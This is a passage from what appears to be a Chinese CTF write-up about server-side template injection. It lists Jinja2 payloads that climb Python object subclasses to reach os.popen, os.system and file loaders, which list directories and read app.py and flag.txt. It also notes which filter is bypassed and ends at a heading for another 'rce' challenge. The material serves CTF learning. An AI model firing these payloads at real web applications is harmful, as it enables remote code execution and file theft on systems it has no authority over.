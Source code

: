 ```

# <class '_frozen_importlib._ModuleLock'>
{{''.__class__.__base__.__subclasses__()[75].__init__.__globals__['__builtins__']['__import__']('os').listdir('/')}}

# <class '_frozen_importlib.BuiltinImporter'>
{{().__class__.__base__.__subclasses__()[80]["load_module"]("os").system("ls")}}

# <class '_frozen_importlib_external.FileLoader'>
{{().__class__.__base__.__subclasses__()[91].get_data(0, "app.py")}}

# <class 'click.utils.LazyFile'>
## 命令执行
{{().__class__.__base__.__subclasses__().__getitem__(475).__init__.__globals__['os'].popen('ls').read()}}
## 读文件
{{().__class__.__base__.__subclasses__().__getitem__(475)('flag.txt').read()}}

# <class 'warnings.catch_warnings'>
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].popen('ls').read() }}{% endif %}{% endfor %}
{{"".__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__'].popen('ls').read()}}

```
根据题目提示，要用/test/?url=来进行ssti攻击，测试{{7*7}}，发现被过滤了，测试{%print(1)%},这个没有被过滤



# [HZNUCTF 2023 preliminary]guessguessguess

>rce
![alt text](image-11.png)